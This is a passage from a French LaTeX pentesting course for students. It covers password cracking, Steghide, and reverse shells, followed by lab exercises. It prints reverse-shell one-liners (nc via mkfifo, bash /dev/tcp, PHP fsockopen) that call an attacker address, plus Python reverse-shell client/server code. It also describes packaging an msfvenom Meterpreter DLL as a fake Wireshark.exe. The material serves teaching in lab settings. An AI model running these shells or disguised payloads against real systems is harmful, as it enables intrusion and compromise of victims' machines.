L’option ‘ alpha ‘ va nous permettre de rechercher les mots de passe avec les lettres du clavier :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/john/incremental_alpha.PNG}
  \caption{Attaque en mode incrémental alphabet}
  \label{fig:courbe-tikz}
\end{figure}

L’option "digit" va nous permettre de rechercher les mots de passe avec les chiffres du clavier :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/john/incremental_digits.PNG}
  \caption{Attaque en mode incrémental chiffre}
  \label{fig:courbe-tikz}
\end{figure}

L’option ‘ ASCII ‘ va nous permettre d’utiliser l'alphabet ASCII qui regroupe presque la totalité du clavier :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/john/incremental_ASCII.PNG}
  \caption{Attaque en mode incrémental ASCII}
  \label{fig:courbe-tikz}
\end{figure}

Comme on peut le voir, plus le champ de recherche est important, plus le mot de passe prend du temps à être trouvé.\\

Cet outil, très complet, vous permettra donc de résoudre des CTFs dont la finalité est de casser un hash.


\section{Image contenant un fichier caché}

A la suite de l'exploitation d'une failles via Metasploit ou encore Burpsuite, il se pourrait que vous puissiez télécharger une image. Peu banal mais efficace, l'image pourrait renfermer un fichier contenant peut être des identifiants et mots de passes. C'est pour cette raison que nous allons vous présenter l'outil Steghide.

\subsection{Steghide}

\subsubsection{Définition}

Steghide est un programme de stéganographie permettant de masquer des données dans des fichiers image et audio. Il présente plusieurs fonctionnalités :\\
-        Compression des données incorporées.\\
-        Cryptage des données incorporées.\\
-        Incorporation d’une somme de contrôle pour vérifier l’intégrité des données extraites.\\
-        Prise en charge des fichiers JPEG, BMP, WAV, AU.\\
Les fichiers JPEG et BMP correspondent à des fichiers image tandis que les fichiers WAV et AU correspondent à des fichiers audio. \\
Cet outil est sous licence GNU General Public License (GPL), ce qui veut dire qu’il est possible d’effectuer des modifications et en faire la distribution de ce programme tant qu’il rentre dans les conditions de la GPL.
On va d’abord voir comment intégrer un fichier texte dans un fichier image. Bien évidemment, il faut créer au préalable un fichier texte contenant un message.

\subsubsection{Fonctionnement}

Pour intégrer notre fichier texte [fichier].txt, il faut entrer la commande :

\begin{center}
    \textbf{steghide embed -cf [fichier].jpeg -ef [fichier].txt}
\end{center}

On ajoute ensuite un mot de passe pour permettre l’accès à ce fichier caché. L’option -ef (--embedfile) permet l’intégration du fichier désiré dans le fichier ciblé. L’option -cf (--coverfile) permet de spécifier le nom du fichier à incorporer.\\ 
Bien sûr, on peut mettre ce que l'on veut comme type de texte. Par exemple, dans notre attaque Kuya:1, lors de l'extraction d'un fichier caché dans une image, on a pu retrouver un fichier texte affichant un code de type "Brain fuck":\\


\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/steghide/STG3.png}
  \caption{Code "Brain Fuck"}
  \label{fig:courbe-tikz}
\end{figure}

C'est un type de code original à intégrer pour rendre la capture du flag un peu plus amusante et plus complexe. Pour vérifier que le fichier cible a bien incorporé le message secret, on peut taper la commande visible en \textbf{figure \ref{fig:steghideinfo}}.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/steghide/STG2.png}
  \caption{steghide info [fichier].jpeg}
  \label{fig:steghideinfo}
\end{figure}

Comme on peut le voir, le fichier picture.jpg est incorporé dans un message crypté nommé secret.txt.
Maintenant, on va extraire le fichier caché avec la commande \textbf{figure \ref{fig:steghideextract}}.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/steghide/STG1.png}
  \caption{steghide extract -sf [fichier].txt}
  \label{fig:steghideextract}
\end{figure}

\vspace{4cm}
L’option -sf (--stegofile) permet de spécifier le “stego file” (fichier contenant les informations incorporées).En affichant ensuite le contenu du fichier texte dont on a extrait le message caché, on peut donc enfin le visualiser. \\

En conclusion, cet outil simple est pratique pour récupérer des messages cachés dans des fichiers pris en charge. Cependant, son niveau d’utilisation reste assez restreint car il ne prend en charge que très peu de formats de fichiers. Steghide sera donc généralement utilisé en début et fin d’attaque CTF car il peut contenir des indications comme des résolutions de flags.


\section{Possibilité d'effectuer un reverse-shell}

\subsection{Reverse-shell}

\subsubsection{Définition}

Le reverse-shell qui signifie shell inversé est le moyen le plus fiable d’accéder aux données de la cible et de devenir administrateur de cette dernière. Cette technique consiste à faire parvenir au hacker un shell via un serveur ouvert et ainsi contourner toutes les sécurités mises en place. Cependant, avant de comprendre comment fonctionne un reverse-shell, il va nous falloir étudier un shell.\\
Comme on peut le voir sur les systèmes d’exploitations installés sans GUI (Graphical User Interface), notre seul moyen de communiquer avec la machine est un invite de commande. Cet interpréteur de commande nous permet d’exécuter des commandes qui sont elles mêmes des scripts capables d’afficher le résultat de la commande saisie à l’écran. Cet interpréteur est donc un programme que l’on nomme shell. Il ne faut pas confondre le shell avec le kernel qui est le noyau du système d’exploitation. Le shell permet donc à l’utilisateur d’exploiter ce noyau à travers des lignes de commandes.
Nous pouvons alors synthétiser ceci en disant que le shell permet à l‘utilisateur de demander quelque chose à son noyau.
Nous pouvons, grâce à cette définition comprendre le fonctionnement du reverse-shell soit du shell-inversé.\\
Le reverse-shell consiste à inverser les commandes de sorties et d'entrées du shell afin que ce soit au noyau de nous demander des informations pour afficher des résultats, et non l’inverse.
Ainsi, les requêtes seront envoyées de la machine cible, passeront le firewall s’il existe, et arriveront à notre machine. Nous aurons alors la possibilité, comme sur un formulaire web, de remplir nos informations et de les renvoyer au serveur comme une simple réponse avec une très grande conséquence.
Ce sera donc par ce moyen que nous arriverons à contourner les sécurités et nous introduire dans le système cible. Voici un schéma explicant le fonctionnement d'un reverse-shell:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=1\textwidth]{oui/images/Reverse_shell-meterpreter/reverse-shell.PNG}
  \caption{Mise en place d'un reverse-shell}
  \label{fig:courbe-tikz}
\end{figure}

Maintenant que nous avons introduit le concept du reverse-shell, il est venu le temps de présenter l’aspect technique de ce dernier.

\subsubsection{Fonctionnement}

\noindent \textbf{Les étapes d'un reverse-shell}\\

Lors d’une attaque sur CTF ou lors d’une réelle séance de hacking, il existe plusieurs grandes étapes obligatoires à passer comme vous l’avez vu lors des chapitres précédents. La détection et l’exploitation d’une faille va en général nous permettre d’écrire dans le langage informatique exploité. Il est important de savoir que tous les langages informatiques se doivent de parler avec le kernel afin de fonctionner. Il est donc essentiel à un langage de pouvoir exploiter des lignes de commandes. Nous passerons donc principalement par cette voie pour ouvrir notre port TCP ou UDP sur la machine cible. Cependant, pour qu’une connexion se mette en place et que le socket fonctionne, il est important que notre machine écoute sur le port que nous allons ouvrir. Ce pourquoi nous allons introduire le logiciel Netcat.\\

\noindent \textbf{Netcat}\\

Netcat est un logiciel réseau permettant l’ouverture de ports et le scan de ports en TCP et UDP. Surnommé “Le couteau suisse TCP”,  cet utilitaire polyvalent et discret est utilisé en arrière plan d’autres applications afin d’effectuer des recherches de ports par exemple. Cependant, son  principale rôle est l’ouverture de socket entre un client et un serveur.
Un socket est la combinaison de l’adresse IP et du port permettant à un programme de communiquer avec autre un programme, distant, sur une machine spécifique. 
Donc Netcat va nous permettre de créer un socket ou d’écouter sur l’un de nos ports. C’est la deuxième option qui va nous intéresser dans un premier temps, lors d’un reverse-shell. En effet, Netcat va pouvoir écouter ce que le shell cible va lui renvoyer sur un port bien spécifique :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.6\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/netcat_lvp.PNG}
  \caption{Ecoute de port Netcat}
  \label{fig:courbe-tikz}
\end{figure}

Comme on peut le voir ci-dessus, Netcat peut être noté ‘nc’. Avec les options associées à Netcat, on s’aperçoit que le programme écoute de la part de tout le monde sur le port 5555.
Regardons ces options de plus près :\\
1) ‘ -l ‘ pour listen, est l’option de nc permettant d’activer le mode écoute.\\
2) ‘-v ‘ ou ‘-vv’ est le mode verbose. Cela signifie qu’il va afficher toutes les informations de retour telles que : “listening on [any] 5555 . . . “\\
3) ‘-p’ est l’option d’ouverture de ports.\\
Une fois cette commande lancée, nous pourrons laisser de côté ‘ nc -l ’ et nous focaliser sur l’ouverture du reverse-shell sur la machine cible.\\
En cas d'échec de connexion, il se pourrait que la cible n'ait pas la bonne version de Netcat. Il est possible de contourner le problème en réalisant la commande suivante dans la faille :
\begin{center}
    \textbf{rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>\&1|nc 10.0.0.1 1234 >/tmp/f}
\end{center}
Comme nous l’avons vu précédemment, il faut avoir trouvé une faille pour mettre en place un reverse-shell. Il existe donc des reverse-shell qui seront plus faciles à ouvrir dans certaines situations que d’autres. Netcat fait partie, comme nous l’avons vu plus tôt, des reverse-shell car il peut créer un socket en envoyant le shell à un utilisateur distant. C’est pourquoi nous allons nous intéresser aux différents types de reverse-shell.

\subsubsection{Différents types de reverse-shell}

\noindent \textbf{Netcat-reverse}\\

Imaginons qu’une faille nous permet d’utiliser un ‘ echo ‘ dans le terminal cible, nous pourrons alors appliquer netcat en ouverture de port comme ci-dessous :\\

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/reverse_netcat.PNG}
  \caption{Reverse Netcat en localhost}
  \label{fig:courbe-tikz}
\end{figure}

L’option ‘ -e ‘ ou ‘ -c ‘ de Netcat va nous permettre d'exécuter un programme chez un utilisateur distant sur un port donné. Ici, le programme annoncé est : ‘ /bin/sh ‘, soit le shell.\\
Ce type de reverse-shell est extrêmement rapide à mettre en place dès qu’une faille est apparente car les commandes sont intuitives. Cependant, l’attaquant ne reçoit aucune informations au niveau du ‘ tty ‘. Un ‘ tty ‘ est une console virtuelle qui permet de taper des lignes de commandes. Il va donc falloir l’importer afin d’obtenir un reverse-shell digne de ce nom :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/tty_importation_python.PNG}
  \caption{Importation d'un TTY}
  \label{fig:courbe-tikz}
\end{figure}

Pour remédier à ce problème, nous avons importer des commandes shell grâce à Python. Python est un langage informatique basé sur le C. Son argument ‘ -c ‘ va nous permettre de directement taper du Python sur la même ligne de commande. Le code qui suit est très simple car son fonctionnement est sa propre lecture traduite en français. Ceci nous donne : “ Importe le module pty puis, dans ce dernier, utilise la fonction spawn (faire apparaître) avec l’option ‘ /bin/bash ‘. Donc le module ‘ pty ‘ intègre une fonction qui permet de faire afficher des pseudo-terminaux avec le type de shell que l’on souhaite. Ici, nous avons choisi un bash-shell.\\
Nous obtenons à partir de ce point un bash-shell qui correspond au terminal de la cible.
Nous nous sommes, à partir de ce moment précis, introduits pour la première fois au sein d’une machine cible !\\

\noindent \textbf{Bash TCP}\\

Au sein de cette partie, nous allons utiliser du bash avec une ouverture de port sur un serveur TCP comme ceci :

\begin{lstlisting}
    bash -i >& /dev/tcp/ip attaquant/port écoute 0>&1
\end{lstlisting}

%\begin{center}
%    \textbf{bash -i >\& /dev/tcp/ip attaquant/port écoute 0>\&1}
%\end{center}

Voici un cas d’application réel de ce reverse :
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/Bash/localhost_bash_tcp_basique.PNG}
  \caption{Reverse Bash localhost}
  \label{fig:courbe-tikz}
\end{figure}

On peut voir ici qu’en appliquant le reverse bash TCP sur la cible, nous avons pu nous connecter grâce à l’écoute de Netcat au shell ciblé.\\
Mais que signifie cette commande rentrée dans la machine cible ?\\
L’option ‘-i>\&’ va nous permettre de retourner un bash interactif soit être en mode connecté.\\
‘/dev/tcp/ip attaquant/port écoute’ va annoncer à la cible à qui envoyer ce bash interactif et sur quel port à travers un socket TCP.\\
\verb+0>&1+ va nous permettre d’inverser les entrées et les sorties et ainsi créer le reverse-shell.
Nous nous sommes ainsi introduits via le protocole TCP en bash dans la machine cible.
Le protocole TCP est souvent associé au protocole UDP car ils sont presque similaires. La plus grosse différence, qui est majeure, est que TCP est en mode connecté et UDP en mode non connecté. Le mode connecté est un mode d'envoi et de réception de fichier qui a un " accusé-réception". Ceci signifie que le message est éparpillé dans le réseau en plusieurs paquets, avec un numéro qui leur est propre, et arrive chez le destinataire dans un ordre non défini. Cette méthode nécessite donc au destinataire de recomposer le message et de vérifier que tous les paquets sont bien arrivés. Si ce n'est pas le cas, ce dernier va pouvoir demander à l'envoyeur de lui renvoyer le ou les paquets manquants. C'est ce que l'on nomme le mode connecté. Le protocole UDP va se baser sur le mode non connecté. Cette méthode est l'équivalent du temps réel et se doit donc d'avoir une interaction directe entre les deux machines. Le message ne pourra donc pas être découpé ce qui implique un renvoi complet de ce dernier s'il est incomplet à la réception. Le protocole UDP est principalement utilisé dans les applications en temps réels car son faible temps de latence permet d'accéder aux contenus rapidement. Cependant, en ce qui concerne le reverse-shell, UDP n'est vraiment pas conseillé car ce protocole, ne vérifiant pas l'intégrité des trames, pourrait nous faire penser que nous nous sommes trompés alors que c'est UDP qui n'est pas fiable. C'est pour cette raison que TCP sera utilisé en reverse-shell.\\

\noindent \textbf{PHP}\\

Le PHP est un langage de programmation Web couramment utilisé pour dialoguer avec la base de données ainsi que pour sécuriser les sites. A titre d'exemple, le HTML va permettre de créer un formulaire que l'utilisateur va remplir. Le PHP sera présent pour vérifier que toutes les conditions ont été respectées afin de valider le formulaire. On s'aperçoit donc que l'utilisateur communique directement avec le PHP. Il y donc des possibilités de réaliser des reverse-shell dans ce langage.\\
Nous pouvons tester le code PHP en localhost sur la \textbf{figure \ref{fig:phpreverse}}.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/PHP/php-reverse.PNG}
  \caption{PHP-reverse}
  \label{fig:phpreverse}
\end{figure}

Le code PHP est le suivant :
\setlstjava
\begin{lstlisting}
     php -r '\$s=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <\&3 >\&3 2>\&3");'
\end{lstlisting}

Regardons ensemble cette commande afin de la comprendre :

\begin{itemize}
    \item 'php -r' va nous permettre d'exécuter du code PHP en ligne de commande
    \item 'php -r' va nous permettre d'exécuter du code PHP en ligne de commande.
    \item'\$s=fsockopen("<IP>",<PORT>);' cette commande a pour but, à travers la variable \$s, d'ouvrir un socket grâce à la fonction fsockopen().
    \item 'exec ()' est une fonction PHP permettant d'écrire dans le cmd.
\end{itemize}

Il est donc assez facile de réaliser un reverse-shell en PHP si l'administrateur web n'a pas réaliser correctement son travail au niveau des failles XSS.\\

\noindent \textbf{Python}\\

Au cours de cette partie, nous allons nous pencher sur le reverse-shell via le langage Python. Ce langage, basé principalement sur le C, se démocratise de plus en plus aujourd'hui. Certes, ce langage est lent, mais il va nous permettre grâce à sa grande ouverture d'exploiter toutes les failles informatiques.\\

Voyons un cas concret sur un reverse en localhost :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/Python/python-reverse.PNG}
  \caption{Python-reverse}
  \label{fig:courbe-tikz}
\end{figure}

Comme on peut le voir ci-dessus, le code est assez important. C'est pourquoi il est plus simple de le visualiser sous un éditeur de texte :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/Python/python_code.PNG}
  \caption{Python-reverse}
  \label{fig:courbe-tikz}
\end{figure}

Nous comprenons alors qu'un script peut être créé assez facilement afin d'invoquer un reverse-shell chez une cible. Le code peut être lancé soit directement dans un invite de commande soit en invoquant un programme existant chez la cible comme nous l'avons fait ci-dessus.





%\newpage

\subsection{Meterpreter}

Meterpreter est un outil dépendant de Metasploit ayant pour but de créer des payloads assez particuliers. En effet, ces payloads, cryptés ou non, permettent de mettre en place un reverse-shell entre nous et notre cible. Nous allons donc dans un premier temps découvrir les injections DLL puis, nous ferons un comparatif entre les reverse shell "classiques" et ceux de Meterpreter.


\subsubsection{Injections DLL}

Les fichier DLL (Dynamic Link Library) sont comme des fonctions utilisées par un programme principal. Lors de son exécution, seul le programme principal est visible dans le gestionnaire des tâches ce qui rend sa détection presque impossible. De cette manière, nous allons même pouvoir appliquer un DLL à un programme existant et ayant les droits administrateur. Ainsi, le retour de ce payload à notre écran nous fournira l'accès administrateur de la cible.\\
Nous allons donc vous montrer la conception d'une injection DLL.\\

\noindent \textbf{Mise en place d'une injection DLL}\\

Meterpreter va donc nous permettre la création de ces fichiers malicieux. Il faut cependant utiliser Msfvenom qui contient Meterpreter. Nous allons réaliser un reverse-shell sur un Windows server 2019 au cours de cette partie. Commençons par créer le fichier .dll:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.9\textwidth]{oui/Ancien/imangeancien/meterpreter/msfvenom.PNG}
  \caption{Création du .dll}
  \label{fig:courbe-tikz}
\end{figure}

Comme vous avez pu le voir, la commande est très longue mais facile à comprendre. Tout d'abord, l'argument "-p" va vous permettre de choisir le payload que vous souhaitez utiliser. N'hésitez pas à jeter à coup d'oeil à la liste de ses 556 payloads via la commande :
\begin{center}
    \textbf{msfvenom  - -list payloads}
\end{center}
Cette liste vous montrera que les possibilités sont presque infinies car il existe même des attaques basées sur VNC ! Après avoir choisi son payload, il faut lui indiquer notre IP ainsi que notre port d'écoute. Pour terminer, nous indiquons la plateforme d'attaque, le format du fichier et enfin son nom. Il est à notifier que le "R" n'est en aucun cas obligatoire. Dans notre cas, nous n'avons pas choisi d'utiliser un encoder car nous avons désactivé l'anti-virus de la machine cible. N'hésitez pas encore une fois à lister les encoders afin d'en choisir un qui vous convienne.
Ensuite, nous allons créer un programme qui exécutera ce fichier .dll :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.9\textwidth]{oui/Ancien/imangeancien/meterpreter/bat.PNG}
  \caption{Fichier .bat}
  \label{fig:courbe-tikz}
\end{figure}

Nous pouvons à pésent utiliser Winrar pour compresser ces deux fichiers sous un .exe que l'on nommera Wireshark par exemble :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.9\textwidth]{oui/Ancien/imangeancien/meterpreter/wireshark.PNG}
  \caption{Wireshark.exe}
  \label{fig:courbe-tikz}
\end{figure}

\vspace{2cm}
Revenons sur Metasploit afin de lancer l'écoute du reverse-shell lors de l'exécution de Wirshark.exe sur Windows server:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.9\textwidth]{oui/Ancien/imangeancien/meterpreter/msf.PNG}
  \caption{Ecoute lors de l'exécution du fichier}
  \label{fig:courbe-tikz}
\end{figure}

Nous nous retrouvons bien dans Meterpreter qui va nous proposer plusieurs champs d'actions grâce à son reverse-shell. En effet, Meterpreter nous permet de manipuler les fichiers, le réseau, les périphériques ainsi que le système en lui même.\\



Il existe trois type de payload dans Meterpreter :

\begin{itemize}
    \item \textbf{Single Payload :} Permettent d'exécuter une tâche spécifique, ex: lancement d'une calculatrice
    
    \item \textbf{Stager Payload :} Payload par étage, l'étage 0 va permettre la création du reverse shell et le stage 1 va permettre l'injection DLL vers la victime.
    \item \textbf{Stageless payload:} Payload regroupant la totalité des outils permettant l'exploitation de la victime.
\end{itemize}

Nous verrons simplement les Stager et Stageless payload puisqu'un single payload est simplement l'exécution d'un programme sur la machine cible. 

\subsubsection{Stager Payload}

Les stager payload sont des payload à étages comme son nom l'indique. En effet, leur avantage est d'être moins lourd en mémoire puisqu'une fois leur exécution faite, ils vont télécharger un autre payload qui permettra de faire l'injection DLL avec les librairies utiles pour le fonctionnement de Meterpreter.\\



\noindent Voici un schéma du fonctionnement:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.9\textwidth]{oui/images/Reverse_shell-meterpreter/stagepayload.png}
  \caption{Fonctionnement d'un Stager payload. Source: \url{secvinfo.com}}
  \label{fig:courbe-tikz}
\end{figure}


Pour utiliser ce type de payload avec msfvenom il faut utiliser le paylaod \textbf{windows/meterpreter/reverse\_tcp}. Les "slash" sont très important puisqu'ils permettent de différencier l'utilisation d'un stager d'un stageless payload.\\ De plus, l’avantage principale du staged payload c’est qu’il permet d’exécuter l’exploit directement dans la mémoire de la machine victime laissant ainsi très peu de traces sur le disque dur. Il y a également un chiffrage des données entre l'attaquant et la victime. Cependant, avec un stager payload, le chiffrement du trafic entre l’attaquant et la victime ne débute qu’après le téléchargement du second payload.

\subsubsection{Stageless Payload}

Dans cette catégorie, le payload est envoyé entièrement sur la machine de la victime. Celui-ci contient tout ce qui est nécessaire pour obtenir un reverse shell vers la machine de l’attaquant. Aucun transfert supplémentaire à partir de la machine de l’attaquant n’est nécessaire.\\

Voici un bref schéma de fonctionnement de ce payload:


\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.9\textwidth]{oui/images/Reverse_shell-meterpreter/Untitled Diagram(4).png}
  \caption{Fonctionnement d'un Stageless payload}
  \label{fig:courbe-tikz}
\end{figure}

\noindent Avec cette catégorie de payload, le code malveillant est envoyé entièrement sur la machine de la victime.
Le chiffrement du trafic entre la victime et l’attaquant est lancé dès la première connexion.
Les stageless payloads peuvent être utiles notamment dans des situations où la cible se trouve derrière un proxy qui bloque le téléchargement de fichiers exécutables.\\
Nous allons à présent comparer les payloads exploités par Meterpreter et les reverse-shell que nous vous avons présentés plus haut.

\subsubsection{Comparaison de scripts}

Comme vous l'aurez compris, les fichiers écris par Msfvenom puis exploités par Meterpreter sont bien des reverse-shell. Nous allons donc observer la différence de code entre un fichier Msfvenom et ceux vu dans la section précédente.\\

Voici un tableau comparatif des deux scripts:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=1\textwidth]{oui/images/Reverse_shell-meterpreter/payload.PNG}
  \caption{Tableau comparatif}
  \label{fig:courbe-tikz}
\end{figure}
\chapterimage{oui/images/illustrations/chap_flagsc.jpg}
\chapter{Exercices de programmation}

Au cours de cette partie, nous allons vous proposer de recoder des outils détaillés durant le cours afin que vous puissiez comprendre le fonctionnement global de ces derniers. Sachant que vous n'aurez pas le temps de recoder une application entière, nous vous proposons de ne recoder qu'une partie de l'outil en vous basant sur ce que nous avons déjà réalisé. Tout code suffisant pour être noté sera ajouté en bonus à votre note de TP. Si votre note de TP est déjà de 20, ce bonus sera basculé sur le DS.

\section{Recoder une partie de Nmap}

Comme vous l'aurez compris durant le cours, Nmap est un outil très complet. C'est pour cette raison que nous vous proposons l'exercice suivant :\\
Réaliser une usurpation d'adresse (spoof) tout en recueillant les ports ouverts d'une machine et les versions des services. En vu du peu de temps que vous avez, nous vous proposons un code que nous avons réalisé qui permet de connaître les ports ouverts et la version du service smb. Ce code n'est certes pas parfait mais vous permettra de gagner du temps dans vos recherches voir \textbf{annexe : \ref{fig:prog1}}\\
%\begin{figure}[htp!]
 % \centering
  %\setlength\figureheight{7cm}
  %\setlength\figurewidth{9cm}
  %\includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Nmap/Part1.PNG}
  %\caption{Programme partie 1}
  %\label{fig:courbe-tikz}
%\end{figure}

%\begin{figure}[htp!]
%  \centering
%  \setlength\figureheight{7cm}
%  \setlength\figurewidth{9cm}
%  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Nmap/Part2.PNG}
%  \caption{Programme partie 2}
%  \label{fig:courbe-tikz}
%\end{figure}

\noindent Pour vous aider, ce code est disponible sur Github via ce lien :\\
\url{https://github.com/MatthieuGouyen/scan\_port}


\section{Coder un reverse-shell}

Le second exercice que nous vous proposons est de compléter, améliorer et automatiser nos programmes client et server qui permettent un reverse-shell. Voici notre code :

\begin{center}
\begin{adjustbox}{center,caption={Code client},label={Code client},nofloat=figure}
% maybe other stuff

\setlstipython
\begin{lstlisting}
#! /usr/bin/env python3
""" Les envoies se font en bytes donc on encode les str en b"""
import socket, subprocess, os, sys
from time import sleep
host = "localhost"
port = 5555

connection_with_server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)		#creation du socket

while connection_with_server.connect_ex((host, port)) != 0 : #connexion au serveur à l'infini
	sleep(2)
																
print ("Established connection with the server on the port "+str(port))

end = ""

while end != b"end": 															#b pour bytes
	command = connection_with_server.recv(1024)
	if command.decode() == "end" :
		connection_with_server.send(command)
		end = command
		
	cmd = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)  
																				#Popen -> création d'un programme fils dans un nouveau processus
																				#subprocess.PIPE -> rediretion vers le flux standard
	if command[:2].decode() == 'cd':
		command = command.decode()								
		if os.path.exists(str(command[3:])):									#vérification du chemin
			os.chdir(str(command[3:]))											#changement de dossier
			out = b"directory changed"
	else:
		out = cmd.stdout.read() + cmd.stderr.read()	 
	connection_with_server.send(out + b"\nEnd of the results\n ")
print ("Close of the session")
connection_with_server.close()
\end{lstlisting}
% maybe other stuff
\end{adjustbox}
\end{center}

\begin{center}
\begin{adjustbox}{center,caption={Code serveur},label={Code serveur},nofloat=figure}
% maybe other stuff

\setlstipython
\begin{lstlisting}
#! /usr/bin/env python3
# Les envoies se font en bytes donc on encode les str en b
import socket
import pty

hote = 'localhost'
port = 5555

connection_main = socket.socket(socket.AF_INET, socket.SOCK_STREAM)		#création du socket
connection_main.bind((hote, port))										#connexion du socket au serveur
connection_main.listen(5)												#mode écoute
print("The server listens on the port "+str(port))

connection_with_client, infos_connection = connection_main.accept()		#ack de connexion

msg_received = ""


while msg_received != b"end" : 											#b pour bytes
	data = ''
	while data == '':
		data = input("msg to send : ")
	connection_with_client.send(data.encode())
	msg_received = connection_with_client.recv(1024)
	print(msg_received.decode())

print ("Close of the session")
connection_with_client.close()
connection_main.close()
\end{lstlisting}
% maybe other stuff
\end{adjustbox}
\end{center}

Ces deux scripts sont disponibles sur \url{https://github.com/MatthieuGouyen/Reverse}



\part{Cinquième partie}

\chapterimage{oui/images/illustrations/chap_cookiea.jpg}
\chapter{TP}

\section{TP 1}

\textbf{Objectif :} découverte des outils de pentest via des exercices, réalisation d’un CTF.\\
\textbf{Durée :} 3H\\

Au cours de ce TP, vous allez découvrir certains outils présents sur la distribution Kali Linux ainsi que les bons gestes à avoir lors de la réalisation d’un CTF. Dans un premier temps, vous allez réaliser trois exercices présents sur la machine TP1\_CTF puis vous allez affronter le CTF Bulldog. \\
 Voici ce dont vous aurez besoin :

\begin{itemize}
    \item \textbf{Le cours}
    \item \textbf{VM Kali.OVA sur le FTP  de l’IUT}
    \item \textbf{VM Bulldog.OVA sur le FTP de l’IUT}
\end{itemize}

 Kali linux est une distribution qui nécessite des ressources surtout lors de gros calculs. N’hésitez pas à lui fournir 4Go de RAM et 3 cœurs de processeurs si cela est possible.

\subsection{Introduction}


\begin{enumerate}
    \item Veuillez installer et allumer Kali et TP1\_CTF sous Virtualbox en réseau NAT. Kali possède le login « root » et le mot de passe « root ».
    \item Vous êtes à présent dans un terminal sous Kali. Il vous faut dans un premier temps analyser votre réseau pour trouver votre cible. En effet, il est possible que vous n’ayez pas l’IP du CTF. La méthode la plus simple est de réaliser un : arp-scan  - -localnet.\\
    Indiquez le fonctionnement de ce type de requête.
    \item Nous sommes dans l’étape de recherche active d’informations.\\
    Lancez un scan Nmap et donner les ports et les services ouverts.
    \item Réalisez un Dirb sur notre cible afin de trouver une piste d’attaque.\\ 
    Donnez les dossiers présents sur la cible.
\end{enumerate}

Une fois que vous avez trouvé ces dossiers, veuillez lancer l’exercice 1 via l’url.

\subsection{Exercice 1 : Les bonnes habitudes}

\begin{enumerate}
    \item Vous voilà sur une page de connexion. Trouvez un moyen de trouver le login et le mot de passe afin de vous enregistrer.\\
    Aide : John The Ripper est l’outil idéal à utiliser si vous avez un mot de passe hashé.
\end{enumerate}

Une fois que vous vous êtes enregistrés, vous pouvez passer à l’exercice 2.

\subsection{Exercice 2 : Les failles}

\begin{enumerate}
    \item Le formulaire est l’endroit qui contient le plus de failles. En effet, il permet à l’utilisateur de rentrer des informations et de communiquer avec le serveur Web.\\
    Quelle est l’information qui vous permettra de vous enregistrer ?
    \item Comme vu dans le cours, mettez en place le proxy afin que Burpsuite puisse intercepter les requêtes du formulaire et ainsi vous permettre de vous enregistrer.
    \item Voici un nouveau formulaire avec une autre faille à exploiter. En autonomie, trouvez un moyen d’obtenir le flag de cet exercice.\\
    Donner le nom de la faille ainsi que l’outil utilisé.
\end{enumerate}

Vous pouvez à présent passer à l'exercice suivant.

\subsection{Exercice 3 : Le web-shell}

\begin{enumerate}
